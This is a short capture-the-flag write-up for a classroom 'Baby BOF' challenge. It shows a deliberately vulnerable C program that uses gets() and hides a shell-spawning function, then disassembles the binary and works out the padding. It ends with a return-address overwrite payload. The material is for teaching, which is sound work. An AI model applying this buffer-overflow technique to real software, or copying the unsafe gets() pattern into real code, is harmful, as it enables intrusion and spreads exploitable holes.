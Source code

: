 <h1>Baby BOF</h1>

First we can look at the babybof.c and see what we have:
  
  ```C
  
  #include<stdio.h>

  void you_cant_see_this_its_too_evil(){
      system("sh");
  }

  int main(){
      setvbuf(stdout,0,2,0);
      puts("Welcome to NCU AD 2017 Fall, Im yuawn :)");

      char buf[20];
      gets( buf );

      return 0;
  }
  ```
  
It is obvious that `gets( buf )` is the key to overflow.

For the next step, we will be to `objdump` to disassemble the program.
  
    000000000040064d <you_cant_see_this_its_too_evil>:
    40064d:	55                   	push   %rbp
    40064e:	48 89 e5             	mov    %rsp,%rbp
    400651:	bf 38 07 40 00       	mov    $0x400738,%edi
    400656:	b8 00 00 00 00       	mov    $0x0,%eax
    40065b:	e8 b0 fe ff ff       	callq  400510 <system@plt>
    400660:	5d                   	pop    %rbp
    400661:	c3                   	retq   

We can clearly see the address of the hidden function `you_cant_see_this_its_too_evil` is `0x40064d` and this will be our return address.

    400692:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
    400696:	48 89 c7             	mov    %rax,%rdi
    400699:	e8 a2 fe ff ff       	callq  400540 <gets@plt>
   
We also can see in `main` that `gets( buf )` starts to store to `-0x20(%rbp)` which equals to `rbp - 0x20`.

Therefore, our padding would be `0x28` bytes.

In the end, our playload will be:

    b"A"*0x28 + p64(0x040064d)  


